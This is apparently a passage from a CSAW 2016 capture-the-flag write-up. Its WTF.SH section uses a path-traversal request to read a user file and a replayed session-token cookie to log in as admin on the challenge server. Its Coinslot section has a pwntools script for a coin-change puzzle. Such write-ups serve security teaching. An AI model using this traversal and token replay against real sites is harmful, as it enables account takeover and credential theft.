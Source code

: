 ```

CSAW 2016           September 2016          WTF.SH(1)
```

Seemingly, we can enumerate users on the service.

```
GET /post.wtf?post=../../../../../../../../../../../tmp/wtf_runtime/wtf.sh/users*
Host: web.chal.csaw.io:8001
...
<div class="post">
<span class="post-poster">Posted by <a href="/profile.wtf?user=7tLx9">admin</a></span>
<span class="post-title">facb59989c28a17cf481e2f5664d4aaeff1651b8</span>
<span class="post-body">2xRnmiXo9/f7GCEXkdZ2XqdtaLUAe0KOl7xibP4rMfS82Kfy/PbNuwaDODgRctRxiUxG0ys5Aq5PLlbq4/GPiQ==</span>
</div>
...
```
So, we have extracted the password hash and the token. We can set the token and get the flag as follows:

```
Cookie: USERNAME=admin; TOKEN=2xRnmiXo9/f7GCEXkdZ2XqdtaLUAe0KOl7xibP4rMfS82Kfy/PbNuwaDODgRctRxiUxG0ys5Aq5PLlbq4/GPiQ==
GET /profile.wtf?user=7tLx9 HTTP/1.1
Host: web.chal.csaw.io:8001
...
flag{l00k_at_m3_I_am_th3_4dm1n_n0w}

```

# Coinslot (25 p)

```
#Hope #Change #Obama2008

nc misc.chal.csaw.io 8000
```

The only hard thing about this challenge is to make it handle floats properly, but Numpy and transforming to integer 1/100 parts solves it :-)

```python
from pwn import *
import numpy

s = remote('misc.chal.csaw.io', 8000)
bills = [10000,5000,1000,500,100,50,20,10,5,1,0.5,0.25,0.1,0.05,0.01]
while True:
    amount = float(s.recvuntil('\n')[1:])
    amount = int(numpy.round(amount * 100))
    send = [0] * len(bills)
    for i in range(len(bills)):
        while bills[i] * 100 <= amount:
            amount -= bills[i] * 100
            send[i] += 1
    for i in send:
        s.recvuntil(':')
        s.send(str(i) + '\n')
    print s.recvuntil('\n')
```

After a lot of time, we get

```
flag{started-from-the-bottom-now-my-whole-team-fucking-here}
```